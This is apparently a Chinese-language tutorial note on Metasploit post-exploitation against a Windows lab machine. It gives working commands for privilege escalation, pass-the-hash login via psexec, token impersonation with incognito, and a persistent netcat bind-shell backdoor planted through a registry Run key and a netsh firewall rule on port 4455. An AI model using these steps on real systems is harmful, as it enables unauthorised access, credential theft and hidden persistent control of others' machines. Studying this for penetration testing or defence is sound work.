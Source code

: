 # 后渗透测试

## 提权

获取的权限越高，能做的操作也就越多，system是系统的最高权限。在获取`meterpretr`会话后即可进行提权操作

`getuid`查看现在权限

`getsystem`尝试提权

查看提权模块，以Windows为例exploit/windows/local相关的模块

使用提权模块` post/multi/recon/local_exploit_suggester  `寻找是否存在其他可以提权的模块

## `Psexec哈希`

可以配合`hashdump`使用

获取系统账号的哈希值之后，Windows使用`exploit/windows/smb/psexec`模块进行登录，Linux类似，具体见前文网络命令篇

## `incognito`令牌窃取

`incognito`可以模拟用户的令牌，成为该特定用户，不用担心凭证和hash值，在获取`meterpreter`会话后

1.`use incognito`

相关命令

`    add_group_user       Attempt to add a user to a global group with all tokens//添加组用户
    add_localgroup_user  Attempt to add a user to a local group with all tokens//添加本地组用户
    add_user             Attempt to add a user with all tokens//添加用户
    impersonate_token    Impersonate specified token//模拟令牌
    list_tokens          List tokens available under current user context//列出可以使用的令牌
    snarf_hashes         Snarf challenge/response hashes for every token`

2.`list_tokens -u`列出用户令牌

`NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
WIN-E97MIF5FS64\Administrator`

3.`impersonate_token`令牌模拟

`impersonate_token WIN-E97MIF5FS64\\Administrator`模拟`administrator`

4.权限查看

   `getuid /whoami/shell`进入shell可能会比较慢。

## 持久化后门`netcat`

`netcat`是一款强大的网络管理工具，借助它可以在目标上建立持久后门，关于`netcat`可以另开一篇,一切都是相互关联的。

1.查找`netcat` `whereis netcat.exe`储存在`/usr/share/windows-resources/binaries/nc.exe`

2.windows本身并没有这个工具需要上传至目标

 `upload /usr/share/windows-resources/binaries/nc.exe C:\test`

3.进入`shell`执行程序

4.相关命令

`connect to somewhere:   nc [-options] hostname port[s] [ports] ... 
listen for inbound:     nc -l -p port [options] [hostname] [port]
options:
        -d              detach from console, stealth mode`

        -e prog         inbound program to exec [dangerous!!]
        -g gateway      source-routing hop point[s], up to 8
        -G num          source-routing pointer: 4, 8, 12, ...
        -h              this cruft
        -i secs         delay interval for lines sent, ports scanned
        -l              listen mode, for inbound connects
        -L              listen harder, re-listen on socket close
        -n              numeric-only IP addresses, no DNS
        -o file         hex dump of traffic
        -p port         local port number
        -r              randomize local and remote ports
        -s addr         local source address
        -t              answer TELNET negotiation
        -u              UDP mode
        -v              verbose [use twice to be more verbose]
        -w secs         timeout for connects and final net reads
        -z              zero-I/O mode [used for scanning]

 5.设置注册表开机自启动

`reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\test\nc.exe -lp 4455 -e cmd.exe'`

6.查询是否设置成功

`reg queryval -k HKLM\\software\\miroft\\windows\\currentversion\\Run -v nc `

`meterpreter> reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc`

![](C:\Users\Aurora\OneDrive\桌面\Metasploit\22.0.0.png)

7.设置防火墙

`execute -f cmd -i`

进入shell,输入`netsh firewall show opmode`

8.4445端口开启

`netsh advfirewall firewall add rule name="nc" dir=in protocol=TCP  localport=4455 action=allow`

查看`netsh firewall show portopening`

![](C:\Users\Aurora\OneDrive\桌面\Metasploit\22.0.2.png)

9.`nc`连接

在目标shell执行`nc.exe -l -p 4455 -e cmd.exe`

设置好上面后可以用`kali`进行`nc`连接

`nc 172.16.0.100 4455`

![](C:\Users\Aurora\OneDrive\桌面\Metasploit\22.0.3.png)

> 参考[Windows cmd 防火墙配置_one-ccs的博客-CSDN博客_cmd防火墙](https://blog.csdn.net/qq_43155814/article/details/111709638)

